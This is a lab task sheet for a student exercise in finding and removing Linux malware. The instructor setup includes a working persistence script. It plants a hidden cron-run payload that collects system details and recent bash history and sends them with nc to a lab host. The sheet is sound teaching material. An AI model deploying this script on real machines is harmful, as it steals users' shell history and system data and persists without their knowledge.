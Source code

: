 ## Preamble

This task introduces students to basic malware investigation on a Linux system. They’ll identify, analyse, and remove a simple malware script using tools like Wireshark and grep, while learning key cyber security concepts like persistence and prevention.

## Prepare Environment
1. Create a virtual machine image with a Graphical version of Linux.
2. Ensure the following tools are installed on the system:
```bash
sudo apt update
sudo apt install -y crontab nc wireshark
```
3. Create a persistence script inside of the home folder (~/.profile) with the following contents:
```bash
#!/bin/bash

USER_NAME=$(whoami)
DEST_IP="192.168.0.10"
DEST_PORT="9001"
PAYLOAD_PATH="/home/$USER_NAME/.cache/NDA0c2VjcmV0c25vdGZvdW5k.sh"
CRON_CMD="$PAYLOAD_PATH >/dev/null 2>&1"
CRON_JOB="* * * * * $CRON_CMD"
FAKE_MAC="F0:0D:F0:0D:F0:0D"

# Recreate payload if missing
if [ ! -f "$PAYLOAD_PATH" ]; then
  mkdir -p "$(dirname "$PAYLOAD_PATH")"
  cat > "$PAYLOAD_PATH" << EOF
#!/bin/bash

OUTPUT_FILE="/tmp/system_profile.txt"

{
  uname -a
  echo
  who
  echo
  ip addr show
  echo
  tail -20 ~/.bash_history
} > "\$OUTPUT_FILE"

# Use UDP instead of TCP
nc -u "$DEST_IP" "$DEST_PORT" < "\$OUTPUT_FILE"
EOF

  chmod +x "$PAYLOAD_PATH"
fi

# Ensure cron job is present
crontab -l 2>/dev/null | grep -F -- "$CRON_CMD" >/dev/null
if [ $? -ne 0 ]; then
  (crontab -l 2>/dev/null; echo "$CRON_JOB") | crontab -
fi

# Ensure static ARP entry exists
arp -n | grep -q "$DEST_IP"
if [ $? -ne 0 ]; then
  sudo arp -s $DEST_IP $FAKE_MAC
fi
```
4. (Bonus step) Configure a machine with the `DEST_IP` and `DEST_PORT` from step 3 to see if any students analyse the malware with the network interface connected to a live network. This can be done with the `nc` tool to spin up a TCP server:
```bash
nc -luvp 9001
```

## Extra Marks
- The student disconnects the network interface card before starting analysis.
- The student discovers and removes the start up persistence script.
- The student discovers the payload file name is a base-64 encoded string of the phrase `404secretsnotfound`.
- The student discovers the MAC address spells out `FOODFOODFOOD`.

-------------------------------------------------------------------------
# Lab 01
-------------------------------------------------------------------------
## Case Study
You are a Cyber Security Analyst who has been tasked with analysing a machine that a client has suspected has malware on it.

The client plugged a USB device into the system and a terminal opened before closing quickly. The client suspects the USB device loaded malware onto the system. The USB device was destroyed so you cannot analyse it.

## Goal
Your goal is to find evidence of malware, and remove it permanently from the system. 
Tools that may be useful to complete your goal include:
- `Wireshark` or `tcpdump`
- `grep`

## Post Analysis
### What was the type and purpose of the malware?
_Type your answer here_

### What tools did you use to detect the malware?
_Type your answer here_

### What steps did you take to remove the malware?
_Type your answer here_

### What steps could be taken in the future to reduce the exposure to similar malware?
_Type your answer here_

### What part of the analysis was most challenging?
_Type your answer here_